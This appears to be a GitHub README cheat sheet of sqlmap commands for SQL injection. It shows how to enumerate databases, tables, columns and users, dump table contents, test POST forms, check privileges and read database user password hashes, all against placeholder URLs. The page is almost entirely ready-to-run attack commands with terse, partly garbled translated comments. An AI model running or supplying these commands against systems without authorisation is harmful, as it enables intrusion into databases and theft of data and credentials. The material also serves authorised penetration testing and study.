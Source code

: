 # sqlmap-command
sqlmap-command


# Basic usage

./sqlmap.py -u "inject address" --dbs // enumerate database
./sqlmap.py -u "inject address" --current-db // current database
./sqlmap.py -u "inject address" --users // column database user
./sqlmap.py -u "inject address" --current-user // current user
./sqlmap.py -u "inject address" --tables -D "database" // enumerate the table name of the database
./sqlmap.py -u "inject address" --columns -T "table name" -D "database" // get the column name of the table
./sqlmap.py -u "inject address" --dump -C "field, field" -T "table name" -D "database" // get the data in the table, including the column, is the pants

#  Submit using the POST method
sqlmap -u "http://192.168.1.1/sqlmap/oracle/post_int.php" --method POST --data "id=1"
sqlmap -u "https://xxxxx//search.aspx" --forms --batch --crawl=10  --dbms=MSSQL --dbs --current-db  --technique=BEUST --risk=3 --level=3

# Read the database version, current user, current database 
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1

# Determine the current database user permissions
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --privileges -U username-v 1 
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --is-dba -U username-v 1

# Read the passwords of all database users or specified database users 
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
Sqlmap.py-u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2

# Get all the databases
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2

# Get all the tables in the specified database
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2

# Get the field of the specified table in the specified database name 
Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2
